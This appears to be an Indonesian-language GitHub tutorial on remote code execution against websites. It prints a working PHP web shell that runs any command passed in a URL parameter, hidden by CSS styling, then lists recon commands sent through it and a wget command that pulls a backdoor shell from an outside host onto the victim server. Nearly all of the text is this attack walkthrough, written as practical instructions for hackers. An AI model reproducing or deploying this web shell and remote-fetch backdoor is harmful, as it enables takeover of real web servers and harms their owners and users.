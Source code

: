 ### Remote Code Execution

<p align="center">
<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" height="150" width="150">

Basic For Remote Code Execution ( Critical )

merupakan suatu teknik serangan pada website dengan cara mengeksekusi kode berbahaya dan mengambil alih kendali akses ke sistem komputer. attacker mempunyai kemampuan untuk mengeksekusi perintah di mesin target, biasanya memanfaatkan kelemahan aplikasi yang dijadikan target eksploitasi.
Remote Command Execution (RCE) atau Remote Arbitary Command Execution (ACE) adalah bug yg memungkinkan attacker untuk menjalankan command2 secara remote melalui url. Bug ini biasanya terdapat pada aplikasi yg mnggunakan cgi.

Contoh Kasus Nya Kayak Gini Lur

```
<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>
<?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}else{echo '<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" border=0>
';}__halt_compiler();?></h1>
```

### Basic Rce

Misal Gua Upload File : rce.php

Request Dari php nya adalah = cmd

Cara Akses ? :
```
http://site.com/rce.php?cmd=
```

Oke Kita Jalankan Beberapa Perintah Dasar RCE
```
http://site.com/rce.php?cmd=ls
http://site.com/rce.php?cmd=whoami
http://site.com/rce.php?cmd=uname -a
http://site.com/rce.php?cmd=pwd
http://site.com/rce.php?cmd=ps aux

```

### Reverse Shell Via RCE
Kita Menggunakan Command wget 
```
http://site.com/rce.php?cmd=wget http://dyan6etar.cf/shell.txt -O namashell.php
```
Jika Sudah Kita Akses Di Dokumen Root : site.com/namashell.php

### Penjelasan Singkat
Penjelasan Singkat Tentang Command wget :

wget menurut Otak Gua : Menarik File Dari Luar Server dan Juga Membuat Di Dalam Server

Sedangkan -O Untuk Menamakan File Tersebut 

Sebagai contoh : Saya Telah Membuat Shell Dengan Ekstensi txt Dan Menguploadnya di hosting lain artinya itu diluar server , nah dengan perintah wget kita bisa menarik file itu ke dalam server cuk dan di buat filenya dengan perintah -O.

Tentu Saja Ini Bisa Di Manfaatkan Untuk Up Shell BackDoor

Oke Sekian Sayang:v
